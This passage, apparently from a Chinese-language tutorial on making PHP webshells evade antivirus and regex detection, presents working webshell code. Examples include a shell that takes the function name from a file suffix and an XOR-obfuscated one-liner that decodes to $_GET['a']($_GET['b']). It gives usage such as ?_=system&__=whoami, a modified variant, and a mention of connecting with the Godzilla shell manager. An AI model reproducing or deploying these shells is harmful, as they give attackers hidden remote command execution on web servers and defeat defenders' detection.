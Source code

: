 ```php
$fi = new FilesystemIterator(dirname(__FILE__));
$f = '';
foreach($fi as $i){
    if (substr($i->__toString(), -6,6)=='aabyss')  //判断后缀名为.aabyss 的文件（其他特殊后缀也行）
        $f = substr($i->__toString(), -13,6);      //从 system.aabyss 提取出 system 高危函数
}
$f($_GET['b']);
```

为什么要写入为 `system.aabyss` 这个文件名呢，因为特殊后缀能让代码快速锁定文件，不至于提取文件名提取到其他文件了

## 12# 多姿势配合免杀

将以上提到的相关姿势，进行多种配合嵌套，实现免杀效果

### 12.1 样例一

刚开始看这个样例我还是挺惊讶的，仔细分析了一波，发现还是挺简单的，但重在思路

这个样例使用了异或 + 变换参数的手法，成功规避了正则匹配式，具有实战意义

```php
<?=~$_='$<>/'^'{{{{';@${$_}[_](@${$_}[__]);
```

这时候，就可以执行 GET 传参：`?_=system&__=whoami` 来执行 whoami 命令

由 8.1 讲到 PHP 中如何异或，我们就先把最前面这部分拆出来看看

```php
<?=~$_='$<>/'^'{{{{';
//即 '$<>/' ^ '{{{{'
//即 "$<>/" 这部分字符串与后面 "{{{{" 这部分字符串异或
```

所以由我们前面所学的知识，加上自己动手实践一下，可以发现异或结果为 `_GET`

所以整个 PHP 语句解密后，再将 `_` 替换为 `a`，将 `__` 替换为 `b`，则原 PHP 转化为：

```php
$_GET['a']($_GET['b'])
```

当我们给 `a` 传 `system`，给 `b` 传 `whoami`，原式就会变成这样

```php
system('whoami');
```

既然上面的代码你看懂了，那不妨看一下下面魔改的代码：

```php
<?=~$_='$<>/'^'{{{{';$___='$}4(/' ^ '{-{{{';@${$_}[_](@${$___}[__]);
```

直接用 Godzilla 哥斯拉来连接，如下：
